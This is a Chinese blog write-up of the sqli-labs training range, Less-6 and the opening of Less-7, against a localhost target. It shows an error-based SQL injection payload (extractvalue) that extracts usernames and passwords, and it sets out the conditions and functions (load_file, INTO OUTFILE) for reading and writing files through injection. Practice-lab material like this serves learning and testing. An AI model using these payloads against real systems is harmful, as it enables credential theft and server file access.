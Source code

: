 ```yaml
---
title: 【靶场】sql-labs-Less 6-14
date: 2025-08-30
categories:
  - 靶场
image: images/22.webp
---
```

# Less-6
**验证注入点：双引号报错，两个双引号闭合利用闭合方式：`" <payload> --+`**
就闭合方式和 Less-5 不一样外，其余都一样
1.进入第六题，显示`Please input the ID as parameter with numeric value`，告诉了我们参数为**id**
![Pasted image 20250313192901](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313192901.png)
发现闭合方式为"，和上一关同理采用报错注入，这里用extractvalue函数
```
http://localhost/sqli-labs/Less-6/?id=1"
```
![Pasted image 20250314110439](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250314110439.png)
```php
?id=1" and extractvalue(1,concat(0x7e,(select concat(username,':',password) from users limit 0,1)))--+
```
![Pasted image 20250314110536](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250314110536.png)
# Less-7
**验证注入点：单引号报错，两个单引号闭合利用闭合方式：`')) <payload> --+`**
```php
http://localhost/sqli-labs/Less-7/?id=1
```
![Pasted image 20250314110703](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250314110703.png)
前置知识:
文件读写注入条件：
在配置文件中设置
**secure_file_priv=''** 
```
注：
1. Windows的配置文件在mysql下的my.ini
2. Linux的配置文件在/etc/conf
```
查看是否配置成功：
```php
show global variables like '%secure%';
```
![Pasted image 20250314113015](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250314113015.png)
php的配置文件php.ini关闭魔术引号
1. **magic_quotes_gpc = Off**
2. **知道服务器的绝对路径**
3. **登录的账户具有root权限**
读取文件：
**load_file()**
```
例：select load_file("D:/password.txt") # 读取D盘下的password.txt文件
```
写文件：
**into outfile 路径**
实战
1.判断闭合方式闭合方式
利用报错信息判断闭合方式为'))
```php
http://localhost/sqli-labs/Less-7/?id=1 ')) --+
```